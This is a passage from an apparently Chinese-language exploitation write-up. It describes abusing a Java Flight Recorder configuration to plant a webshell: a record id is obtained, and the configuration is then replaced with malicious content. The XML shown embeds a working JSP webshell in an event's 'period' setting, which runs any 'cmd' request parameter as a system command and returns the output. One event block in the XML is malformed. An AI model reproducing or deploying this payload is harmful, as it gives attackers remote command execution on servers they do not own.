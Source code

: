 ![image-20240228112241248](images/5.png)

这里会得到一个record id，用于后面设置，录制，导出

更改配置为恶意的代码片段，在里面加入了webshell

![image-20240228111147141](images/6.png)

```
<?xml version="1.0" encoding="UTF-8"?>

......
    <event name="jdk.ThreadAllocationStatistics">
      <setting name="enabled">true</setting>
      <setting name="period"><![CDATA[||| <% Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); out.println(org.apache.commons.io.IOUtils.toString(p.getInputStream(), "utf-8")); %> |||]]></setting>
    </event>

    <event name="jdk.ClassLoadingStatistics">
      <setting name="enabled">true</setting>
      <setting name="period">1000 ms</setting>
    </event>
      <setting name="enabled">true</setting>
      <setting name="period">beginChunk</setting>
    </event>

......
</configuration>
```
